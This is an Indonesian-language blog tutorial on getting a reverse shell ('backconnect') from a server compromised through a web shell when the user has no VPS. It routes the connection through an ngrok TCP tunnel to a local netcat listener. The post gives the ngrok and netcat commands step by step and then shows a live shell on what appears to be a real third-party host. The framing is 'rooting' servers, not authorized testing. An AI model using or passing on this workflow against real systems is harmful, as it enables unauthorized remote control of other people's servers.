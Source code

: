 ```yaml
---
title: "Backconnect Server With Ngrok"
author: "TanMyID"
tags: ["Network", "Web", "Pentest"]
date: 2019-05-03T08:46:38+07:00
draft: false
---
```


Bagi temen temen yang mau rooting server tapi tidak punya VPS, ada cara lain yaitu dengan menggunakan ngrok, tapi tidak semua server atau *web shell* support backconnect dengan ngrok. tidak ada salahnya mencoba kan? hehe.

Disini saya menggunakan perl sebagai media backconnect antara server dan ngrok. OK lanjut ke alat tempurnya.

 1. Ngrok [Download](https://ngrok.com/download) Pilih sesuai sitem operasi kamu.
 2. Server yang support perl sangat di anjurkan,
 3. Netcat [Download](https://eternallybored.org/misc/netcat/) (disini saya menggunakan windows)

### Download dan Auth Ngrok
Jangan lupa untuk buat akun ngrok di [sini](https://dashboard.ngrok.com/user/signup) guna mengautentikasi token. Ektrak ngrok-XXX.zip nya lalu autentikasi token nya agar *ngrok* dapat berjalan. Ganti token sesuai dengan punyamu.
```
./ngrok authtoken initokenBqHnhg3_3X3JtBTSu1rNojz4kXXX
```

### Konfigurasi Ngrok & Netcat 
Selanjutnya jalankan *ngrok* dengan tcp, port sesuai selera misalkan:
```
./ngrok.exe tcp 1991
```
Pastikan ngrok berjalan dengan baik seperti di bawah ini,
```
ngrok by @inconshreveable                                                       (Ctrl+C to quit)

Session Status                online
Account                       Tan (Plan: Free)
Version                       2.3.23
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://0.tcp.ngrok.io:16857 -> localhost:1991

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```
Jalankan netcat, pastikan port sesuai dengan port yang di jalankan di ngrok.
```
./nc.exe -lnvp 1991
```
Pastikan netcat berjalan walau masih listening,
```
λ .\nc.exe -lnvp 1991
listening on [any] 1991 ...
```

### Backconnect Server
Setelah semua terkonfigurasi, tinggal melakukan backconnect server ke komputer kita, pastikan webshell yang kita gunakan mempunyai fitur *backconnect*. 
{{< figure src="https://raw.githubusercontent.com/tanmyid/blog/master/img/fitur-bc.PNG" alt="fitur-bc" caption="Fitur Backconnect" >}}

Setelah semua terkonfigurasi, isi server dengan `0.tcp.ngrok.io` dan isi Port dengan port yang di buat oleh ngrok misal `16857` di sini saya menggunakan perl. Untuk `Bind port to /bin/sh [Perl]` abaikan saja. Klik >>
{{< figure src="https://res.cloudinary.com/tanmyid/image/upload/v1556851179/isi-bc_kodyu6.png" alt="isi-bc" caption="Contoh backconect" >}}

Cek di netcat, apakah sukses melalukan backconnect, jika sudah balasan dari server seperti di bawah, berarti sudah sukses backconnet,
```
λ .\nc.exe -lnvp 1991
listening on [any] 1991 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 62032
sh: no job control in this shell
sh-4.2$
```
### Uji Coba Command Linux
Selanjutnya tinggal [Spawn TTY Shell](https://tan.my.id/posts/spawn-tty-shell/). Ok kita coba jalankan command untuk memastikan kita sudah benar benar mendapak shell nya.
```
sh-4.2$ uname -a                                                                                
uname -a                                                                                        
Linux thewhitecloud.in 3.10.0-514.16.1.el7.x86_64 #1 SMP Wed Apr 12 15:04:24 UTC 2017 x86_64 x86
_64 x86_64 GNU/Linux                                                                            
```
Ok sudah berhasil, tips ini berguna bagi kalian yang tidak mempunyai VPS saat rooting server. Sekian dan terima kasih.
